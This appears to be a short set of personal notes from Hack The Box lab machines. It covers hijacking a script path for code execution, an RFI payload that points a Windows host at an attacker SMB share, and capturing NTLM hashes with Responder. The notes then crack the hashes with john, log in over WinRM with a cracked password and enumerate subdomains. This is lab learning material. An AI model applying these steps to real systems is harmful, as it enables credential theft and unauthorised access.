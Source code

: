 1. From machine `Busqueda`. Look for version vulnerability, Space is denoded by "%2b", Look at git configs they might have configs, in python code, the code ran "./full-checkup.sh" while taking "full-checkup", so i could git clone in seperate directory, change full-checkup.sh and ran my own code.

2. When there is rfi, we could ask the vulnerable windows machine to get smb share file, and then catch NTLM hash and crack it.
3. `sudo python Responder.py -I tun0`
4. example `?page=//10.10.14.22/somefile`
5. After u get the hash `username:...`, copy entiner stuff in file, and crack `john -w=/usr/share/wordlists/rockyou.txt hash.txt` 
6. connect to windows remote management `vil-winrm -i 10.129.101.119 -u administrator -p badminton`
7. subdomain enumeration `gobuster vhost -w ~/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb`

